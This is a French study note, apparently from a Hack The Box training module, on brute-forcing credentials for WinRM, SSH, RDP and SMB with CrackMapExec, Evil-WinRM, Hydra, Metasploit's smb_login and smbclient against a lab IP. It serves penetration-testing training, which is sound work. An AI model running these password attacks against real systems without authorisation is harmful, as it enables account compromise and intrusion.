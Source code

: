 ```yaml
---
title:  "Services de réseaux : port 5985, 5986, 3389"
category: "Attaques par mot de passe à distance"
tag: "Attaques de mots de passe"
---
```

De nombreux serveurs sont gérés à distance à travers le réseau.\
Les services les plus utilisés sont **RDP, WinRM et SSH**.

## WinRM (Windows Remote Management) : port 5985, 5986
C'est l'implémentation de Microsoft du protocole **WS-Management.**
Il permet de gérer des systèmes windows en utilisant le protocole **SOAP**.\
Il est désactivé par défaut sur Windows 10.

## CrackMapExec

```console
Misoko@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
La présence de **(Pwn3d!)** signifie qu'on a accès à un compte utilisateur.

## Evil-WinRM
Un autre outil pour communiquer avec WinRM.
```console
Misoko@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```

## SSH
### Hydra - SSH
```console
Misoko@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197
```

## RDP (Remote Desktop Protocol) : 3389
C'est un protocole permettant la connexion à distance aux systèmes Windows.

### Hydra - RDP

```console
Misoko@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197
```

### xFreeRDP
Il existe de nombreux clients pour communiquer par RDP. \
Par exemple xFreeRDP avec la syntaxe suivante :
```console
Misoko@htb[/htb]$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

## SMB
Protocole responsable pour le transfert de données entre un client et serveur au sein d'un réseau local.
On peut utiliser hydra pour SMB également.

### Hydra - SMB
```console
Misoko@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

### Metasploit Framework


```console
Misoko@htb[/htb]$ msfconsole -q
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list
msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197
msf6 auxiliary(scanner/smb/smb_login) > run
```
### CrackMapExec
Nous pouvons voir les ressources partagées ainsi que leurs privilèges avec CrackMapExec
```console
Misoko@htb[/htb]$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

### smbClient

```console
Misoko@htb[/htb]$ smbclient -U user \\\\10.129.42.197\\SHARENAME
```

